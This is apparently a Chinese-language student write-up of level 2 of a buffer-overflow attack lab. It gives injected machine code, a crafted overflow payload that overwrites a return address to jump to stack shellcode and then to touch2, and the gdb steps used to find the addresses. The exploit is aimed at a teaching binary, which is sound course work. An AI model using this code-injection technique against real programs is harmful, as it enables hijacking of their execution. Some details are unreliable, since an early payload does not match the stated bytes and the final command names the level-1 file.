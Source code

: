  

```
unix> gcc -c ctarget_l2.s 
unix> objdump -d ctarget_l2.o > ctarget_l2.d
```
打开ctarget_l2.d即可得到汇编代码的机器码

```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	c3                   	retq   
```

修改ctarget_l2.txt,将从($rsp)开始的5个字节设置为机器码bf fa 97 b9 59 c3

同时将($rsp+0x28)开始的8个字节设置为($rsp)，这样就可以跳转到该地址执行代码

```
8b 3d e2 2c 20 00 c3 ec 17 40 00 00 00 00 00 ec 17 40 00 00 00 00 00 ec 17 40 00 00 00 00 00 ec 17 40 00 00 00 00 00 00 78 dc 61 55 00 00 00 00 
```
最后8位为注入代码的首地址78 dc 61 55 00 00 00 00 ，这里将栈顶 也就是$rsp=0x5561dc78作为输入代码的首地址 ,在注入代码ret后的地址就是程序要跳转的地址，应该是touch2()的入口地址为0x4017ec

在getbuf中设置断点

```

break *0x4017b9
```
输入 
```

run -q < ctarget_l2-raw.txt 

```

```
(gdb) print /x $rsp
$1 = 0x5561dc78

```
输出

```

(gdb) x/56xb 0x5561dc78
```
执行stepi 运行到(%rsp+5)也就是对应retq的地址

```

(gdb) print /x $rsp
$1 = 0x5561dca8

```
所以将touch2()的入口地址设置到0x5561dca8开始的8个字节，修改ctarget_l2为
```
bf fa 97 b9 59 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00 ec 17 40 00 00 00 00 00
```
运行
```
./hex2raw < ctarget_l1.txt | ./ctarget -q

```
发现结果正确

